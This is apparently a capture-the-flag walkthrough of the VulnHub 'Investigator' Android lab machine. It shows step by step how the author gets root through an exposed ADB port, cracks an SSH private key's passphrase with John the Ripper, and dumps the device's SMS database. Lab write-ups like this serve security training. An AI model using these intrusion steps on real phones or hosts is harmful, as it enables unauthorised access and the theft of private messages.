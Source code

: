 ```yaml
---
title: "Investigator VulnHub CTF writeup"
---
```


#### nmap Service scan
{% highlight terminal%}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sC 192.168.56.164                                                130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-19 09:29 EDT
Nmap scan report for 192.168.56.164
Host is up (0.00099s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
5555/tcp  open  freeciv
8080/tcp  open  http-proxy
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  snapenetio
{% endhighlight %}

This device is an android phone. The services running are as follows: 
{% highlight text %}
5555 Android Debug Bridge over the network
22000 DropBear SSH server 
{% endhighlight %}
[freeciv explaination](https://github.com/nmap/nmap/issues/1276)

From the http-proxy server webpage:
{% highlight text %}
Agent 's' have been investigate the case but he fail to completed it !!
We Don't Know what happens to Agent "S"
Sector need your help to investigate this case
Last information from Agent "S" is only 6666666666 no other information,find and solver it
{% endhighlight %}

Firstly we'll need to install the platform tools to use ADB. 
go [here](https://developer.android.com/studio/releases/platform-tools) and download
the linux zip file. We just need to unzip the platform tools and away we go. 

#### Connecting to the device

This will start the ADB server on our host and connect to the device:  
{% highlight terminal%}
./adb connect 192.168.56.164:5555
{% endhighlight %}

Getting a shell on the device:
{% highlight terminal%}
./adb shell
{% endhighlight %}

Getting root on the device:
{% highlight terminal%}
su root
{% endhighlight %}

#### Getting the root flag.txt

Traversing to the data/root directory for the first flag:
{% highlight terminal%}
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt                          
Great Move !!! 

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!     


Agent "S"   Your Secret Key ---------------->259148637
{% endhighlight %}

#### enumerating the other services on the device

We'll enumerate the services by looking in the `sdcard` directory:

{% highlight terminal%}
uid=0(root) gid=0(root)@x86:/sdcard # ls -a                                    
Alarms
Android
Boot_Shell
DCIM
Download
Movies
Music
Notifications
Pictures
Podcasts
Ringtones
htdocs
kickwebinfo
obb
ssh
storage
www
{% endhighlight %}

`www` and `ssh` look interesting, we'll do `www` first to see if that's the HTTP
server root directory: 

{% highlight terminal%}
uid=0(root) gid=0(root)@x86:/sdcard/www/public # ls -asl
total 28
-rw-rw---- root     sdcard_r       13 2017-12-10 20:06 .htaccess
drwxrwx--- root     sdcard_r          2018-04-04 00:29 announce
-rw-rw---- root     sdcard_r       18 2018-04-04 13:50 backdoor.php
drwxrwx--- root     sdcard_r          2018-04-04 18:38 backup
drwxrwx--- root     sdcard_r          2018-04-04 18:37 hello
-rw-rw---- root     sdcard_r      607 2020-07-03 18:43 index.html
drwxrwx--- root     sdcard_r          2018-04-04 00:31 secret22000

{% endhighlight %}

A couple of fake backdoors and an RSA private key which we're going to crack using 
[this method](https://www.techregister.co.uk/how-to-crack-ssh-private-key-passwords-with-john-the-ripper-null-byte-wonderhowto/).


{% highlight terminal%}
┌──(kali㉿kali)-[~/ctfs/investigator]
└─$ python ssh2john.py touhid.key > touhid.hash

┌──(kali㉿kali)-[~/ctfs/investigator]
└─$ john touhid.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty           (touhid.key)
1g 0:00:00:05 DONE (2021-04-19 11:10) 0.1700g/s 2439Kp/s 2439Kc/s 2439KC/sa6_123..*7¡Vamos!
Session completed

{% endhighlight %}

Now we can use the key to login over ssh:

{% highlight terminal%}
┌──(kali㉿kali)-[~/ctfs/investigator]
└─$ chmod 600 touhid.key                                                                                                                                            255 ⨯
┌──(kali㉿kali)-[~/ctfs/investigator]
└─$ ssh -i touhid.key 192.168.56.164 -p 22000
{% endhighlight %}

now we can switch to root and ditch ADB for the remainder of the walkthrough

#### Dumping the SMS database
I'll be dumping the SMS messages by using the following as a [guide](https://android.stackexchange.com/questions/11619/android-read-recent-sms-messages-from-command-line).

[Here's another useful guide](https://manios.org/2013/10/28/read-sms-directly-from-sqlite-database-in-android).

{% highlight terminal%}
2|uid=0(root) gid=0(root)@x86:/data/data/com.android.providers.telephony/databases # sqlite3 mmssms.db
{% endhighlight %}

{% highlight terminal%}
sqlite> select address, body from sms;
(999) 999-9999|Welcome to  investigator 
(999) 999-9999|Your flag is in next chat
(999) 999-9999|welcome to investigator
(888) 888-8888|welcome to investigator
(888) 888-8888|your flag is not here
(888) 888-8888|welcome to investigator
(777) 777-7777|welcome to investigator
(777) 777-7777|your flag is not  here
(666) 666-6666|welcome to investigator
(666) 666-6666|share your screen shot in  telegram ------------ telegram group link ------------->https://t.me/joinchat/MnPu-hwn_MMS5sX0jngsoQ
(666) 666-6666|if the above link is not working share your screenshot at twitter -------->twitter id ------->@sivanes90967948
(666) 666-6666|welcome to investigator
(555) 555-5555|welcome to investigator
(555) 555-5555|no flag
(555) 555-5555|welcome to investigator
(444) 444-4444|welcome to investigator
(444) 444-4444|no flag
(444) 444-4444|welcome to investigator
(333) 333-3333|welcome to investigator
(333) 333-3333|no flag
(333) 333-3333|welcome to investigator
(222) 222-2222|welcome to investigator
(222) 222-2222|no flag
(222) 222-2222|welcome to investigator
1111-111-111|welcome to investigator
1111-111-111|no flag
1111-111-111|welcome to investigator
(000) 000-0000|welcome to investigator
(000) 000-0000|no flag
(000) 000-0000|welcome to investigator
(777) 777-7777|welcome to investigator
sqlite>
{% endhighlight %}

Where the number is `(666) 666-666` is where the flag intended "root" flag is.
